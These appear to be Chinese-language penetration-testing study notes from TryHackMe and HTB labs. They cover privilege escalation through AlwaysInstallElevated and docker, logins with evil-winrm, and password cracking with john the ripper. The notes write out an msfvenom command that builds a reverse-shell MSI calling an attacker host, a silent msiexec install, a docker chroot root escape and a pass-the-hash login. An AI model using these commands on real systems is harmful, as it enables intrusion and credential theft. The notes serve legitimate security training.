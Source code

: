 ### AlwaysInstallElevated

注意： AlwaysInstallElevated 方法在此房间的计算机上不起作用，它仅供参考。  
此方法需要设置两个注册表值。您可以使用以下命令从命令行查询这些内容。  
``````
命令提示符
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
``````
为了能够利用此漏洞，两者都应该设置。否则，利用将是不可能的。  

使用msfvenom生成恶意.msi文件：  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.4.63 LPORT=LOCAL_PORT -f msi -o malicious.msi  

由于这是一个反向 shell，您还应该运行相应配置的Metasploit处理程序模块。传输创建的文件后，您可以使用以下命令运行安装程序并接收反向 shell：    
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

### 一些少见的提权方式

>docker提权

使用命令：     
docker images
输出的文件与GTFObins的命令配合使用

docker run -v /:/mnt --rm -it <FILES> chroot /mnt sh



## 工具使用

### evil-winrm

windows登录工具：  
evil-winrm -i IP -u USERNAME -p PASSWORD

evil-winrm -i 10.200.60.201 -u trevor.local -H 41cb324dee3768a2777a1d640b2808a8

### impacket

HTB起点靶机发现的，专门用来对付mssql(微软的数据库)





### john the ripper

john [选项] [文件]  

unshadow passwd.txt shadow.txt 

>john自带的工具  

>gpg2john

``````
gpg2john tryhackme.asc > keyhash
john --wordlist= keyhash [解出pgp加密的密码]
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
``````
